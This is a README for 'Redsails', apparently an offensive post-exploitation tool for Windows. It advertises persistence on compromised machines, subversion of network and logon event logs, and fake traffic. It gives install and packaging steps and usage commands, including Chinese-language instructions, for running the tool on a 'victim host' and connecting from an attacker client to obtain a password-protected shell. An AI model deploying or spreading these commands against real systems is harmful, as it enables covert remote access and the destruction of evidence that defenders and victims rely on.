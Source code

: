 # Redsails

## About
A post-exploitation tool capable of:
-	maintaining persistence on a compromised machine
-	subverting many common host event logs (both network and account logon)
-	generating false logs / network traffic

Based on [PyDivert] (https://github.com/ffalcinelli/pydivert), a Python binding for [WinDivert](https://www.reqrypt.org/windivert.html), a Windows driver that allows user-mode applications to capture/modify/drop network packets sent to/from the Windows network stack.

Built for Windows operating systems newer than Vista and Windows 2008 (including Windows 7, Windows 8 and Windows 10).

## Dependencies
  Redsails has dependencies PyDivert and WinDivert. You can resolve those dependencies by running:
  #### `pip install pydivert`
  #### `pip install pbkdf2`
 
 Pycrypto is also needed.
  #### `easy_install pycrypto`
  Pycrypto may have a dependency on [Microsoft Visual C++ Compiler for Python 2.7] (http://aka.ms/vcpython27)
  
## Usage
- Server (victim host you are attacking)
  #### `redSails.py`
  
  Or if the victim does not have python installed, you can run provided exe (or compile your own! instructions below)
  #### `redSails.exe

- Client (attacker)
  #### `redSailsClient.py <ip> <port>`

## Creating an executable
  To compile an exe (for deployment) inlieu of the python script, you will need pyinstaller:
  #### `pip install pyinstaller`
  
  Then you can create the exe:
  #### `pyinstaller-script.py -F --clean redSails.spec`
  
## License

用法:
```
在目标主机上执行:
redsails.exe -a <IP Address> -p <password> -o <port>
在本地进行监听，使用相同的密码就可以获得一个shell
python redsailsClient.py -t <IP Address> -p <password> -o <port>
```
